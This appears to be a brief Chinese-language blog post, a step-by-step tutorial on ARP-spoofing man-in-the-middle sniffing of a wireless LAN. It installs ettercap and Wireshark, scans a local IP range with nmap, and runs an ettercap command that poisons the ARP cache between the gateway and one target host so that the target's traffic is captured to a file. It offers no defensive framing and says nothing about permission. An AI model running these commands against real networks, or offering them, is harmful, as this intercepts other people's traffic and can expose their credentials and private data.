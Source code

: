 ```yaml
---
layout:     post
title:      "ettercap和wireshark配合进行arp嗅探"
subtitle:   ""
date:       2017-01-29 12:00:00
author:     "Ives"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
- 无线
- Wifi
---
```


## 1. ettercap和Wireshark安装
```shell
sudo apt-get install wireshark
sudo apt-get install ettercap-graphical
```
## 2. 开始嗅探

###### 扫描主机192.168.0.100至192.168.0.150中活动的主机
```shell
nmap 192.168.0.100-150
```
###### 查看无线网卡
```shell
iwconfig
```
###### 对192.168.0.114进行arp嗅探
保存嗅探到的数据到host114
使用无线网卡wlo1
```shell
sudo ettercap -Tq -w host114 -i wlo1 -M arp:remote /192.168.0.1// /192.168.0.114//
```

[http://topspeedsnail.com/kali-linux-preform-man-in-middle-attack/](http://topspeedsnail.com/kali-linux-preform-man-in-middle-attack/ "http://topspeedsnail.com/kali-linux-preform-man-in-middle-attack/")


